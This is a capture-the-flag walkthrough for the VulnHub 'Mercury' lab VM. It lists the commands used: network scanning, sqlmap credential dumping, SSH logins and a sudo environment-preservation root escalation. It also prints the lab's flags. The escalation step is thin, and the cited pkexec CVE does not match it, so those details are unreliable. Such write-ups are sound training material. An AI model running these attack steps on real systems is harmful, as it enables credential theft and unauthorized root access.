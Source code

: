 # 🛰️ The Planets: Mercury – VulnHub Walkthrough

**Difficulty:** Easy  
**Author:** SirFlash  
**Platform:** VulnHub  
**Objective:** Gain root access and retrieve both user and root flags.

---

## 🚀 Overview

Mercury is a beginner-friendly boot2root virtual machine hosted on VulnHub. The goal is to leverage enumeration, SQL injection, SSH login, and privilege escalation techniques to retrieve two flags.

---

## 🧰 Tools Used

- Kali Linux  
- netdiscover  
- nmap  
- sqlmap  
- wfuzz  
- SSH client  
- Text editors (nano, vim)  
- `sudo --preserve-env`

---

## 🧭 Steps to Exploit

### 1. 🔍 Network Discovery

Use `netdiscover` to find the target's IP address:

```bash
netdiscover -r 192.168.56.0/24
```

> **Discovered IP:** `192.168.56.105`

---

### 2. 🚪 Port Scanning

Run an Nmap scan to detect services and versions:

```bash
nmap -sC -sV 192.168.56.105
```

> **Open Ports:**
> - 22 (SSH)
> - 8080 (HTTP)

---

### 3. 🌐 Web Enumeration

Visit `http://192.168.56.105:8080/` and explore.  
Accessing `/mercuryfacts/` reveals dynamic content, possibly from a database.

---

### 4. 🛠️ SQL Injection

Use `sqlmap` to test and exploit SQL injection on the `/mercuryfacts/1` endpoint:

```bash
sqlmap -u http://192.168.56.105:8080/mercuryfacts/1 --dump
```

> This reveals login credentials stored in the database.

---

### 5. 🔐 SSH Access

Login using the credentials obtained from SQLMap:

```bash
ssh webmaster@192.168.56.105
```

Find the first flag:

```bash
cat user_flag.txt
```

> **User Flag:** `user_flag_8339915c9a454657bd60ee58776f4ccd`

---

### 6. 🧾 Discover Notes for Next User

Check for hints left behind:

```bash
cat Notes.txt
```

> Reveals credentials for `linuxmaster`

Log in as the new user:

```bash
ssh linuxmaster@localhost
```

---

### 7. 📈 Privilege Escalation

Escalate to root using `sudo` while preserving environment variables:

```bash
sudo --preserve-env=PATH /bin/bash
```

---

### 8. 🏁 Retrieve Root Flag

Once root access is gained:

```bash
cat /root/root_flag.txt
```

> **Root Flag:** `root_flag_69426d9fda579afbffd9c2d47ca31d90`

---

## ✅ Summary

- Enumerated the web service and found a SQL injection.
- Dumped credentials and gained shell access via SSH.
- Switched to a higher-privileged user.
- Used `sudo --preserve-env` to become root.
- Captured both flags!

---

## 📚 References

- [Mercury VM on VulnHub](https://www.vulnhub.com/entry/the-planets-mercury,678/)
- [CVE-2021-4034 (GTFOBins)](https://gtfobins.github.io/gtfobins/pkexec/)

---
